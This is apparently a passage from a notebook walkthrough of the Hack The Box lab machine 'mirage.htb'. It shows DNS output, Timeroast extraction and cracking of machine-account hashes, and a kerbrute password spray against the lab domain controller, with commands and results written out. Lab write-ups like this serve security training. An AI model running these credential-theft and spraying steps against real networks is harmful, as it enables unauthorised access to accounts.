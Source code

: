     ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ;; QUESTION SECTION:
    ;nats-svc.mirage.htb.		IN	A
    
    ;; AUTHORITY SECTION:
    mirage.htb.		3600	IN	SOA	dc01.mirage.htb. hostmaster.mirage.htb. 156 900 600 86400 3600
    
    ;; Query time: 92 msec
    ;; SERVER: 10.129.203.72#53(mirage.htb) (UDP)
    ;; WHEN: Sat Jul 19 13:53:10 PDT 2025
    ;; MSG SIZE  rcvd: 110
    


And just one wild hair to see if there's any extra machine accounts and if we can steal any passwords.


```python
!./Timeroast/timeroast.py dc01.$target | tee machines.mirage.hashes
```

    1000:$sntp-ms$1e4c36eeffcf658b1106356cd71f0706$1c0111e900000000000a17bd4c4f434cec257aef132dc60be1b8428bffbfcd0aec259a3bcf568471ec259a3bcf56d6a6
    1112:$sntp-ms$07ac4e392f91206d2e0d2b3bf78a3b97$1c0111e900000000000a17be4c4f434cec257aef116e24a0e1b8428bffbfcd0aec259a3ca18eb6e7ec259a3ca18efbb0



```python
!./Timeroast/extra-scripts/timecrack.py machines.mirage.hashes $(wordlists_path)//seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

    
    0 passwords recovered.



```python
# Saving some values to see if we can password spray at all with the user accounts we've found so far.
!echo "Dev_Account_A" > spns # Leaded from dns investigation ticket
!echo "nats-svc.mirage.htb" >> spns # Guessed based on dns investigations
!echo "Dev_Account_B" >> spns # Guessed, there is no C
!echo "ad-security" >> spns

```


```python
!kerbrute -users spns -domain $target -passwords $(wordlists_path)/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Blocked/Disabled user => Dev_Account_A
    [*] Blocked/Disabled user => Dev_Account_B
    [*] No passwords were discovered :'(
